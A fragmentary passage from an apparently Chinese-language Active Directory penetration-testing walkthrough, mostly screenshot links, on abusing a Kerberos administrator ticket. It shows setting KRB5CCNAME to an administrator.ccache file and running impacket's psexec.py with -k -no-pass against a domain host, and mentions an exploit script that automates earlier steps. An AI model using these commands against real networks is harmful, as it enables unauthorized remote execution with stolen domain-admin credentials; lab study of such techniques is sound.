
1 | export KRB5CCNAME=/usr/mytool/impacket/examples/administrator.ccache |

PS：wmiexec执行一些命令会乱码，所以可以用
1 | python3 psexec.py -k -no-pass test11.ruyue.com |

4.4.2.2.利用EXP
前面的setp1和step2都可以利用工具完成，如下：

如图直接执行exp，就完成步骤4.4.2.1.1.和4.4.2.1.2.，接着只需要操作4.4.2.1.3.就完事了。
